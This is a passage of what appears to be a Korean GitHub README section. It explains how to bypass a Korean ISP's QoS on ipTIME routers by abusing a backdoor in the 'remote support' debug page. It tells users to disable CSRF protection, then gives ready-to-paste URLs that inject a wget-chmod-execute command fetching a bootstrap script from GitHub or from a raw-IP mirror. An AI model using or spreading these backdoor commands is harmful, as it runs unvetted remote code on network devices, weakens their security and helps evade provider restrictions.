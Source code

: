 성공적으로 프리미엄 IP를 취득했거나 실패했다면 기기 모델명과 펌웨어 버전, 미러 다운로드 주소 사용여부, 실패 시 출력되는 메세지를 3570kgen@naver.com 에 제보하는 것을 고려해보세요.

--------------------------------

--------------------------------

iptime(알파테스트중)

백도어 출처 - https://github.com/tylzars/iptime-debug - 펌웨어 버전 15.10.0, ipTIME A2004S에서 동작 확인됨

위 출처와 같이 iptime 공유기의 '원격 지원'기능에 잠재된 백도어에 접근할 방법이 있는 경우에만 유효합니다

<a href="https://github.com/veilRedeemer/udhcp/releases">미리 빌드된 udhcpc 출처</a>

1. 적용하려는 기기는 '악성 스크립트 접근 방지(CSRF)'기능이 꺼져 있으며, '원격 지원'기능이 켜져 있어야 합니다:
<img width="285" alt="iptime1" src="https://github.com/user-attachments/assets/ef4882cc-03a4-4478-acd1-a0418048dca0" />

2. 아래 링크 중 하나를 직접 클릭하지 말고 로그인한 관리자 페이지의 주소 칸에 붙여넣어 진행하세요. 관리자 계정/비밀번호를 설정하지 않은 경우 동작하지 않습니다:

http://192.168.0.1/sess-bin/d.cgi?act=1&fname=&aaksjdkfj=!@dnjsrurelqjrm*%26&dapply=%20Show%20&cmd=wget%20-O%20%2ftmp%2fstart.sh%20https%3a%2f%2fraw.githubusercontent.com%2fveilRedeemer%2fbypassQoSKoreatelecomISP%2frefs%2fheads%2fmain%2fiptime_bootstrap.sh%20%3bchmod%20755%20%2ftmp%2fstart.sh%20%3b%2ftmp%2fstart.sh

  이때 아래와 같은 메시지가 표시된다면 원본 링크의 암호화된 연결을 지원하지 않는 환경이므로 각자 웹서버를 준비하거나 아래에 미리 준비된 미러 링크를 사용해야 합니다
   
<img width="498" alt="notls" src="https://github.com/user-attachments/assets/6ee27eda-0b7f-4213-a868-7a118907b1d3" />

   미러 링크는 접속자의 IP 주소와 타임스탬프를 포함한 접속 기록을 저장함에 동의하고 미러 링크를 사용:

http://192.168.0.1/sess-bin/d.cgi?act=1&fname=&aaksjdkfj=!@dnjsrurelqjrm*%26&dapply=%20Show%20&cmd=wget%20-O%20%2ftmp%2fstart.sh%20http%3a%2f%2f168.138.196.144%2fiptime_bootstrap.sh%20%3bchmod%20755%20%2ftmp%2fstart.sh%20%3b%2ftmp%2fstart.sh

3. 아래와 같이 표시되면 성공. 다운로드한 데이터를 포함한 변경 사항은 특정 공유기 설정을 변경하거나 재시동되거나 전원이 끊어지면 지워집니다:
<img width="333" alt="iptime2" src="https://github.com/user-attachments/assets/fa6ee8d4-9990-4f80-8d70-8ad551737b36" />

성공적으로 프리미엄 IP를 취득했거나 실패했다면 기기 모델명과 펌웨어 버전, 미러 다운로드 주소 사용여부, 실패 시 출력되는 메세지를 3570kgen@naver.com 에 제보하는 것을 고려해보세요.

--------------------------------
